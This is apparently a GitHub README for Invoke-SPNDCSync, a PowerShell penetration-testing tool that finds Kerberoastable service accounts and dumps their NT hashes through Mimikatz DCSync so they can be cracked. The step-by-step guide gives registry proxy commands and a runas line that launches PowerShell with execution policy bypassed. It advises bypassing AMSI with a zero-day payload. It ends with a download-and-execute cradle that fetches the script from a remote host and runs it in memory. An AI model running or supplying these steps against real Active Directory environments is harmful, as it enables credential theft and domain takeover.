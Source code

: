 # Invoke-SPNDCSync

PowerShell script to enumerate Kerberoastable SPN user account and retrieve their NT-Hash via Mimikatz for password cracking.

This is an alternative to cracking Kerberos-Hashes, since NT-Hashes can be cracked 135 times faster.

## General Preparation

1. Connect to the internal AD network via VPN or directly, if on-site.
2. Configure your operating system's proxy to use the client's proxy. Internet is required to download Invoke-Mimikatz and Invoke-DCSync PS scripts. Alternatively, configure a known proxy via PS:

````
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "127.0.0.1:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
````
3. Open a new PowerShell terminal as another user; use a privileged domain user account with DCSync rights

````
runas.exe /netonly /noprofile /user:mydomain.prod.dom\dcsyncUser "powershell.exe -ep bypass"
````

4. Verify authenticated AD access within your PowerShell terminal window

## SPN DCSync Preparation

It is recommended to bypass AMSI for the current PowerShell session. Use a 0-Day payload!

# SPN DCSync Execution

Download ``Invoke-SPNDCSync.ps1`` into memory, which executes the DCSync process.

As a result, we will obtain our files located under C:\temp\ directory:

````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/Invoke-SPNDCSync/main/Invoke-SPNDCSync.ps1')
````
